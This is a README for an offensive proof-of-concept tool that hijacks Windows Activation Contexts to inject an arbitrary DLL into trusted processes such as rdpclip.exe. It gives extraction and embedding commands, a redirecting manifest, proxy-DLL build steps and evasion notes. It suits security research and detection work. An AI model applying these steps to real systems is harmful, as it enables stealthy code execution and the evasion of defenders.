 # Description

Eclipse is a PoC that performs [Activation Context](https://learn.microsoft.com/en-us/windows/win32/sbscs/activation-contexts) hijack to load and run an arbitrary DLL in any desired process. Initially, this technique was created as a more flexible alternative to DLL Sideloading + DLL proxying that can be leveraged to inject arbitrary code in a trusted process, altought it has proven to have other applications.

	C:\Eclipse\eclipse\target\release>eclipse.exe -h
	Usage: eclipse.exe -m spawn|hijack -b C:\Windows\System32\rdpclip.exe -r 3 [options]

	Options:
    -h, --help          Print this help menu.
    -m, --mode          Hijack the Activation Context of a new (spawn) or an
                        already running (hijack) process.
    -b, --binary        Absolute path to the executable used to spawn the new
                        process.
    -f, --manifest-file
                        Path to the manifest file from which the new
                        Activation Context is created.
    -r, --resource-number
                        Resource index of the current executable where the
                        manifest is located.
    -i, --pid           PID of the process whose Activation Context is to be
                        hijacked.

# How it works 

By definition, Activation Contexts are "data structures in memory containing information that the system can use to redirect an application to load a particular DLL version" and also can be used to determine the path from where a specific dll has to be loaded. An Activation Context is created by parsing the contents of a manifest file. When a process is created, the OS parses the binary's manifest (which can be embbeded in the binary itself or as a independent file in the same directory) and it maps in the memory of the newly spawned process what I call the main **Activation Context**. This main AC will be used to find the right file each time a DLL has to be loaded (regardless of whether this load is due to dependencies in the IAT of a module or as a call to Loadlibray). 

Additionally, a thread can create and activate a custom AC at runtime. In that particular scenario, if that specific thread tries to load a DLL the thread's custom AC will be used first and, just in case that AC doesn't contain information regarding the DLL to be loaded, then the main AC of the process will be consulted. 

The memory address of the main AC of a process is obtained from the PEB, while custom AC activated by a thread are obtained from a AC stack located in the TEB. This mean one thread can create and activate multiple custom AC which will be pushed on an AC stack, and only the last activated AC (the one on top of the stack) will be used to determine the path of a DLL to be loaded.

With this in mind, Eclipse offers two modes of use:
* You can spawn a new process where your want to run your DLL. In this case, the process will be spawned in suspended mode and the main AC referenced by the PEB will be hijacked, allowing to set a custom AC (which I will refer to in this README as the “malicious” AC) as the main AC of the process. This will redirect the application to load your DLL instead of the legitimate DLL that would be loaded normally when the process execution is resumed.
* You can try to hijack the active AC of a running process. In case the main thread of that particular process has a custom AC activated, Eclipse will hijack the AC stack located in the TEB. Otherwise, the main AC referenced in the PEB will be hijacked. The result in both cases is the same: in case the main thread of the process tries to load a DLL referenced by the malicious AC created by Eclipse, your DLL will be loaded instead. 

# How to use it 
Regardless you are spawning a new process or hijacking an already running process, Eclipse needs a manifest file from which it will create the malicious AC. Some examples can be found in the **manifests** folder of this repository, although you can also obtain the manifest file embedded in any binary and modify it at will. To obtain the manifest file of a binary, I use the [Microsot Manifest Tool](https://learn.microsoft.com/en-us/cpp/build/reference/manifest-tool-property-pages?view=msvc-170). The following command extracts the manifest file of a executable and saves it in the specified location:
	
	C:\Temp> mt.exe -inputresource:"C:\Windows\System32\cmd.exe";#1 -out:"C:\Temp\cmd.exe.manifest"

Once the manifest file has been modified, just compile Eclipse in `release` mode and the tool will be ready to use:
	
	C:\Path\To\Eclipse\eclipse> cargo build --release

In case you want to embed the modified manifest file in the resulting Eclipse executable, you can use MT once again (I recommend to avoid using resource ID 1):

	C:\Temp> mt.exe -manifest "C:\Temp\fakecmd.exe.manifest" -outputresource:"C:\Path\To\Eclipse\eclipse\target\release\eclipse.exe";#4 <- Embed the manifest file in the resource ID 4

# Examples
## Hijack AC of a new process

This first example is meant to give some guidelines on how to use AC hijack to load and run your DLL in a trusted process. In this case, `rdpclip.exe` will be the selected process, although this methodology can be applied to almost any other process.
First, we need to find a DLL that will be loaded by the process in a regular execution. For this, we can use [PE-bear](https://github.com/hasherezade/pe-bear) to inspect the IAT of the binary.

![rdpclip.exe IAT.](/images/pebear.PNG "rdpclip.exe IAT.")

This inspection shows that `crypt32.dll` will be loaded at the process initialization, meaning this DLL is one of the multiple potential targets. Now, we need to know if any function of this DLL is being called during the normal execution of this process. For that, I use [ADPT](https://github.com/Kudaes/ADPT) ExportTracer, that will log in a file each function of this DLL that is called during the execution of the process. The ExportTracer DLL can be created with the following command (check ADPT Readme file for further instructions about how to use the tool):
	
	C:\Path\To\ADPT\Generator\target\release> generator.exe -m trace -p C:\Windows\System32\crypt32.dll -l C:\Temp\logfile.txt
	C:\Path\To\ADPT\ExportTracer> cargo build --release

The idea is that once the main AC of `rdpclip.exe` is hijacked by Eclipse, the recently compiled `exporttracer.dll` will be loaded instead of `crypt32.dll`. To do so, we need a custom manifest file that redirects the application into loading our DLL. To create the manifest file, we can use MT to extract the original manifest file of `rdpclip.exe` and then modify it at will:

	C:\Temp> mt.exe -inputresource:"C:\Windows\System32\rdpclip.exe";#1 -out:"C:\Temp\rdpclip.exe.manifest"

Then add the following `<file>` element to the contents of the extracted manifest file, pointing the `loadFrom` field to your `exporttracer.dll` DLL:

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<assembly xmlns="urn:schemas-microsoft-com:asm.v1" manifestVersion="1.0" xmlns:asmv3="urn:schemas-microsoft-com:asm.v3">
<assemblyIdentity version="5.1.0.0" processorArchitecture="amd64" name="Microsoft.Windows.rdpclip" type="win32"></assemblyIdentity>
<description>RDP Clipboard Monitor</description>
<trustInfo xmlns="urn:schemas-microsoft-com:asm.v3">
    <security>
        <requestedPrivileges>
            <requestedExecutionLevel level="asInvoker" uiAccess="false"></requestedExecutionLevel>
        </requestedPrivileges>
    </security>
</trustInfo>
<application xmlns="urn:schemas-microsoft-com:asm.v3">
    <windowsSettings>
       <disableWindowFiltering xmlns="http://schemas.microsoft.com/SMI/2011/WindowsSettings">true</disableWindowFiltering>
    </windowsSettings>
</application>
<asmv3:application>
    <asmv3:windowsSettings xmlns="http://schemas.microsoft.com/SMI/2005/WindowsSettings">
        <dpiAware>true/PM</dpiAware>
    </asmv3:windowsSettings>
</asmv3:application>
  <file name="crypt32.dll" hash="optional" loadFrom="C:/Path/To/Your/exporttracer.dll"/>
</assembly>
```

The last and **optional** step is to embed the modified manifest file as a resource of `eclipse.exe`. To do so, compile Eclipse on `release` mode and then use MT once again to embed the manifest file as the resource ID 4 (any other ID would work):

	C:\Path\To\Eclipse\eclipse> cargo build --release
	C:\Path\To\Eclipse\eclipse> mt.exe -manifest "C:\Temp\rdpclip.exe.manifest" -outputresource:"C:\Path\To\Eclipse\eclipse\target\release\eclipse.exe";4

Finally, run the tool:

	C:\Path\To\Eclipse\eclipse\target\release> eclipse.exe -m spawn -b C:\Windows\System32\rdpclip.exe -r 4
	[+] Activation Context created locally
	[+] New process spawned in suspended mode.
	[+] Remote process PEB base address obtained.
	[+] Memory successfully allocated in the new process.
	[+] Activation Context mapped in the remote process.
	[+] PEB successfully patched.
	[-] Resuming process...

Inspecting the newly spawned `rdpclip.exe` process with PH will reveal that `exporttracer.dll` has been loaded. The ExportTracer acts as a proxy, meaning it loads the legitimate `crypt32.dll` to forward all the received calls, but it will also have registered in `C:\Temp\logfile.txt` all the functions from `crypt32.dll` that have been called from `rdpclip.exe`:

![exporttracer loaded in rdpclip.exe.](/images/exporttracer.PNG "exporttracer loaded in rdpclip.exe.")
![Log file.](/images/exporttracer_log.PNG "Log file.")

Now, we just need to use `ADPT` once again to create a proxy dll that runs our desired payload on one of the called functions. In this case, I select the first one, `I_CryptCreateLruCache`:

	C:\Path\To\ADPT\Generator\target\release> generator.exe -m proxy -p C:\Windows\System32\crypt32.dll -e I_CryptCreateLruCache
	C:\Path\To\ADPT\ProxyDll> cargo build --release

Change the `loadFrom` field of the manifest file to point to the generated `proxydll.dll` and embed the manifest in `eclipse.exe` as before. Kill the previously spawned `rdpclip.exe` process (only one `rdpclip.exe` can be running per user session) and run Eclipse once again. The ProxyDll will be loaded and the payload inserted in the `I_CryptCreateLruCache` function will be executed within `rdpclip.exe` (in this case, just an infinite loop in a new thread):

![Main AC hijacked.](/images/proxydll.PNG "Main AC hijacked.")

Note how unlike when performing a regular DLL proxying, with this technique the proxy DLL does not need to have the same name as the DLL to which the calls are being forwarded, removing that specific IoC.


## Spawn powershell without ETW and AMSI
## Hijack AC of an already running process

# Conclusions
# References